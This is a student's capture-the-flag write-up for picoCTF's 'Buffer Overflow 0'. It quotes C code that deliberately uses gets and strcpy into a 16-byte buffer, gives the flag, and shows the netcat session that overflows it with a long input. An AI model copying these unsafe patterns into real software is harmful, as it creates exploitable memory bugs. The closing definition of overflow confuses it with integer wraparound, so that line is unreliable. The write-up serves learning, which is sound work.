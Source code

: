 # Buffer Overflow 0
This was easy after I understood what's happening (which took some asking around).   

flag : picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

## My Approach
I launched the instance and got my code.
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
thats way too long, let's focus on one specific part     
```
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
.
.
.
fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
```
So from here I can say that the function sigsegv_handler prints my flag. And it requires a segmentation fault to occur(OVERFLOW IT)    
The void vuln function asks me for a 16 character input.
This is an OVERFLOW challenge, so I gotta overflow with my input i.e. more than 16 characters.
That is all is the crux of this challenge.

- step 1 : run the instance    
- step 2 : observe the code. Notice what is my overflow criteria     
- step 3 : open my ubuntu terminal and paste the link " nc saturn.picoctf.net 62210 "    
- step 4 : it asks for input. give a greater than 16 character input     
- step 5 : find your flag


  ## Terminal Output
```
  /home/avantikasanyal/.hushlogin file.
avantikasanyal@LAPTOP-CFRE3HMA:~$ nc saturn.picoctf.net 50994
Input: 123456789123456789123456789
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}

```


  ![image](https://github.com/user-attachments/assets/0bafee12-ebfa-49cb-9b3e-34a048c7651d)


## What I learned
My friend gave this wonderful visual for overflow.  
Say you have the puri in pani puri. Imagine it has a small hole. To find out the hole, I overfill my puri with pani and see from where the water drips out.

### overflow
It is essentially looping the number from the highest possible value to the lowest possible value by adding past the maximum possible length.

## References
https://www.youtube.com/watch?v=Dbbh_lrbgAU

## Errors I made
I was trying to run my program in command prompt instead of Ubuntu for Linux 
